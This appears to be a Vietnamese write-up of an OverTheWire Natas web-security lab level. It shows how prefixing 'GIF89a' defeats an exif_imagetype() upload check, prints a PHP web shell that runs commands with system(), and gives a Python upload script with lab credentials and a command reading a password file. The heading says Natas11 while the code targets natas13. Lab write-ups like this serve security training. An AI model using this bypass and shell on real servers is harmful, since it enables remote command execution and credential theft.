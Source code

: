 # Natas11

![1](image/1.png)

- Bài này cũng thuộc dạng *upload* file

- Tức là ta phải `upload` 1 file *backdoor.php* lên server

- `Viewsource` xem thử code thế nào

![2](image/2.png)

- Mấu chốt của cả `source` nằm ở hàm `exif_imagetype()`

- Đọc về hàm `exif_imagetype()` : [Link](https://www.php.net/manual/en/function.exif-imagetype.php)

- Hàm này đọc *byte* đầu của file để xác định xem có phải là ảnh không

- Ta chỉ cần thêm `GIF89a` vào đầu file để đánh lừa hàm này là có thể *upload* file lên server

- Code `backdoor`:

```
	GIF89a
	<?php
		$backdoor = $_GET['backdoor'];
		system("$backdoor");
	?>
``` 

- Code *upload* của mình (thực sự thì upload bằng tay còn nhanh hơn...):

```
	import requests

	username = 'natas13'
	password = 'jmLTY0qiPZBbaKc9341cqPQZBJv7MQbY'

	url = 'http://%s.natas.labs.overthewire.org/'%username

	s=requests.session()

	file = {
		'uploadedfile' : open('backdoor.php', 'rb'),
	}

	data = {
		'filename' : 'a.php',
		'submit' : 'Upload File'
	}

	response = requests.post(url, auth = (username, password), files = file, data = data)
	# response = s.post(url+'upload/g3sysz0999.php?backdoor=cat /etc/natas_webpass/natas14', auth = (username, password))

	print(response.text)
```

![3](image/3.png)

![3](image/4.png)

